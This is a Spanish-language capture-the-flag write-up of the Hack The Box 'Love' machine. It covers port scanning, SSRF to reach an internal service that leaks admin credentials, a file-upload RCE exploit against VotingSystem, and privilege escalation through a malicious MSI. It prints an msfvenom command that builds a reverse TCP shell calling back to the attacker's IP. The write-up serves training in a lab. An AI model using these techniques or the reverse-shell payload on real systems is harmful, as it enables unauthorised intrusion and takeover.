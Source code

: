 ```yaml
---
title: "Love - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/Love/data/love.png"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Ssrf
  - RCE
  - Key Registry Abuse
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/Love/data/loveHTB.png">
</p>

La máquina **love** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **EASY** una calificación en el rank de 4.4, **9403 USER OWNS** y **8307 SYSTEM OWNS** con la ip **10.10.10.239** y un sistema operativo **Windows**.

## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.239]** utilizando los parámetros:
- **-p-:**    Escaneo a toda la gama de puertos (65536).
- **-n:**     No hacen la resolución del DNS.
- **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
- **--open:** Muestra sólo los puertos con un estatus abierto.
- **-oG:**    Guarda la el output en formato Grepeable.


  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPorts**, vemos que los puertos que destacaron en este caso fueron **80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001,49664,49665,49666,49667,49668,49669,49670**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/Ports.png">
  </p>


  Ya identificados los puertos abiertos realizare un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/PortServ.png">
  </p>

  Con este escaneo a versiones y servicio no pude sacar demasiada información así que empezare a enumerar manualmente los puertos, como veo que existe el puerto **80** entrare vía web para ver el contenido de la pagina.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web.png">
  </p>

Al entrar se puede observar que existe un panel de login pero al no conocer las credenciales no puedo hacer gran cosa y ya que las cuentas por defecto no funciona como **"admin:admin, admin:'null',administrator:administrator, etc."** lo que haré sera con la herramienta de **openssl** conectarme al puerto 443 para ver si me brinda alguna información útil.


  Para hacer esto use el siguiente comando:

```bash
openssl s_client -connect 10.10.10.239:443
```

  Al hacer esto puedo ver que entre la información que me otorga se puede ver que existe un dominio **love.htb** y un subdominio **staging.love.htb**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/sub.png">
  </p>

  Estos dominios los agregare a la ruta de **/etc/hosts**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/hosts.png">
  </p>

  Ya implementado en mi **hosts** puedo ver que entrando a estos dominios por web específicamente a **staging.love.htb** puedo ver algo diferente a la web que anteriormente me mostró el puerto **80**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web1.png">
  </p>

## Lateral Movement
  Examinando la pagina entrando a la pestaña de demo puedo ver que hay un panel en la seccion de **Demo** el cual me pide una **url**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web2.png">
  </p>

 Haciendo pruebas en la web puedo ver que es vulnerable a una ataque **SSRF** ya que si ingreso la url de **http://localhost** me interpreta el contenido y me muestra el mismo panel de login que cuando accedía a la web por el puerto 80.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web3.png">
 </p>


 Sabiendo esto y recordando los puertos que estaban disponibles ingrese el puerto 5000 el cual desde mi navegador no es posible acceder pero ingresando lo como localhost en la web si es posible.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web4.png">
 </p>

 Como se puede ver el contenido que me da son unas credenciales que son para el usuario **admin** pero ingresando estas credenciales en el login de la web que se ingresa por el puerto **80** no es posible acceder pero haciendo **fuzzing** en la web puedo encontrar un subdirectorio **admin**.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/fuzz.png">
 </p>

 Entrando a la url **http://love.htb/admin** puedo ver que existe un login similar y si ingreso las credenciales accedo al panel de administrador del gestor **VotingSystem**.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web5.png">
 </p>

 Buscando en la herramienta de **searchsploit** existe un exploit el cual es un **File Upload RCE** y leyendo el exploit lo que hace es subir un archivo php el cual tengan contenido malicioso que me otorga una shell a la maquina y baypasea una mala sanitizacion de código que verifica en la cabecera si el archivo que se sube es una imagen.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/exp.png">
 </p>


 Para poder usar este exploit se tienen que setear los datos del payload como **Ip, Username, Password, Ip Destino, Port Destino** y también se tiene que modificar las url que estan ya seteadas y adaptarlas a las que maneja la web eliminando el **/votesystem/** de las mismas.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/pay.png">
 </p>

 <div align="center">
 <table class="center"><tr>
 <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/b.png">
 <div class="caption" >Url Predeterminadas.</div></center></td>
 <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/a.png">
 <div class="caption">Url Adaptadas.</div></center></td>
 </tr></table>
 </div>

 Ya modificado y adaptado el exploit haciendo uso de la herramienta de netcat para ponerme en escucha por el puerto **443** y en paralelo ejecutando el exploit veo que el exploit funciona correctamente y me otorga la **shell**.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/shell.png">
 </p>

## Privilege escalation


Como se puede ver accedo como el usuario **phoebe** y ya puedo visualizar la flag de **user.txt**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/flag.png">
</p>

Ahora que estoy dentro de la maquina toca escalar privilegios para esto iré a la ruta **C:\Users\Phoebe\AppData\Local\Temp** y con el comando **mkdir winsad** crear una carpeta donde pueda introducir la herramienta necesaria.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/temp.png">
</p>

En esta ocasión haré uso de la herramienta **winpeas** la cual sirve para enumerar un sistema Windows mostrando datos que recolecta de una scaner que hace el sistema.


Para esto me descargare el [winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) y compartiendo un recurso compartido por **smb** con impacket copiare en winpeas al equipo victima.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/winp.png">
</p>


Una vez que el binario esta en el equipo victima procedo a ejecutarlo y esperar los resultados.

En los resultados que mostró se puede ver que existen 2 llaves de registro habilitadas las cuales se pueden abusar para escalar privilegios con la ejecución de un binario **.msi** malicioso.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/elev.png">
</p>


Una vez visto esto voy a mi consola y con **msfvenom** me creo un binario msi el cual al ser ejecutado me entable una shell a mi equipo por el puerto 443.


```bash

msfvenom -p windows/x64/shell/reverse_tcp LPORT=443 LHOST=10.10.15.125 -f msi -o winshell.msi

```

Una vez creado el binario de igual forma levanto un recurso compartido por **smb** y copeo el binario a la carpeta que cree en la ruta **Temp**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/winsh.png">
</p>

Como se pude ver a la hora de ejecutar el binario que cree en la maquina victima de lado de donde esttoy en escucha con **netcat** por el puerto 443 me otorga la shell como **nt authority\system**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/root.png">
</p>
